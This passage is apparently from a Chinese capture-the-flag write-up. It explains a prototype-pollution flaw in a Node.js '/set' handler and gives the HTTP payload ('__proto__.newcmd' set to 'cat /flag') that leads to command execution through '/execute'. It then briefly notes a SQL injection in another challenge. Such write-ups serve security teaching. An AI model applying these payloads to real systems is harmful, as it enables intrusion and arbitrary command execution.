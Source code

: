 重点关注 `/set` 里的代码处理逻辑：

```javascript
app.post("/set", (req, res) => {
    const {
        key,
        value
    } = req.body; // 从请求体获取 key 和 value

    const keys = key.split("."); // 将 key 按照 . 分割，支持多级属性
    let current = store;

    for (let i = 0; i < keys.length - 1; i++) {
        const key = keys[i];
        if (!current[key]) {
            current[key] = {}; // 如果中间节点不存在，创建空对象
        }
        current = current[key]; // 移动到下一层
    }

    current[keys[keys.length - 1]] = value; // 在最后一个 key 处设置 value

    res.json({
        message: "OK"
    });
});
```

当传入 `key=__proto__.newkey` 时：

- `current` 初始指向 `store`，一个空对象
- `current[__proto__]` 会访问对象的原型链上的 `Object.prototype` 对象
- `current[__proto__][newkey] = value` 会修改 Object.prototype，从而污染所有继承自该原型的对象

所以传入以下 Payload 时：

```http
POST /set HTTP/1.1
{
    "key": "__proto__.newcmd",
    "value": "cat /flag"
}
```

这会使 `newcmd` 属性被添加到 `Object.prototype` 上，因此所有以 `Object.prototype` 为原型的对象（包括 `cmds` 对象）都能通过原型链访问到这个属性。

于是可以通过 `/execute?cmd=newcmd` 来执行命令 `cat /flag`：

```http
GET /execute?cmd=newcmd HTTP/1.1
```

## [Web] PaoluGPT

`/view` 里将 GET 参数 `conversation_id` 直接拼入 SQL 语句，造成 SQL 注入：
